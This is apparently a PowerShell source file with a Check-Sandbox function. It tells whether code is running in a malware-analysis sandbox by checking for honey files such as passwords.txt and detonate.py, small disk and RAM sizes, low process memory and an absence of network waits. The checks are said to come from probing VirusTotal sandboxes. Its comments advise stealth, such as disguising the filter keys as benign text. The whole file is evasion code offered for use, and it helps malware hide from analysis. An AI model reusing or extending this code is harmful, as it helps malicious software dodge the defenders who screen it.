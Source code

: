 <#
.SYNOPSIS

Check for evidence of sandbox by looking for static honey files, checking if total c disk space is less than 50GB,
the abscence of "_WAIT" connections (abscence of network connection activity), physical mem used by all processes from ps under 1.2GB,
total physical memory less than or equal to 2GB. 
Checks were discovered from probing VirusTotal sandboxes.


.DESCRIPTION

Determine if running in sandbox by checking environmental factors.

#>
Function Check-Sandbox() {
    #TODO
    Function Check-Filter() {

    }
    # using dict because more stealthy than hashset
    # keys dont matter, so in real usage, replace with some benign text
    # add your own filename filters here
    $DesktopFilters = @(
        @{ 
            'accounts.xlsx' = ''
            'Credit-Report.pdf' = ''
            'Financial_Report.ppt' = ''
            'Financial_Report.xls' = ''
            'Incidents.pptx' = ''
            'passwords.txt' = ''
            'secret.txt' = ''
        },
        @{
            'My credit cards.xlsx' = ''
            'New PT.pptx' = ''
            'Payment plans.docx' = ''
            'Salaries.xlsx' = ''
        },
        @{
            'detonate.py' = ''
            'file.doc' = ''
            'agent.py' = ''
        }
    )
    $Result = $False
    $DesktopFilterMatchLimit = 1
    $FilterMatchCnt = 0
    $DesktopFiles = ls $env:userprofile\Desktop 
    # check if Desktop contains more than limit number of filter file names
    foreach ($Filter in $DesktopFilters) {
        $FilterMatchCnt = 0
        ForEach($File in $DesktopFiles) {
            if ($Filter.Contains($File.name)) {
                $FilterMatchCnt += 1
            }
        }
        if ($FilterMatchCnt -gt $DesktopFilterMatchLimit) {
            $Result = $True
            #break
        }
    }

    # 1073741824 = 1GB
    if ((((get-psdrive -Name C).Free / 1073741824) + (get-psdrive -Name C).Used / 1073741824) -lt 50 ) {
        $Result = $True
    }

    # no *_WAIT* connections
    # extremely unlikely if there is any network activity, including from background processes
    if (-not (netstat -ano) | sls "_WAIT") {
        $Result = $True
    }

    $PsPhysicalMemSum = 0 
    ps | %{$PsPhysicalMemSum += $_.WorkingSet64 }
    if (($PsPhysicalMemSum / 1073741824) -lt 1.2) {
        $Result = $True
    }

    $TotalPhysicalMem = (Get-CimInstance Win32_ComputerSystem).TotalPhysicalMemory / 1073741824
    if ($TotalPhysicalMem -le 2) {
        $Result = $True
    }

    return $Result
}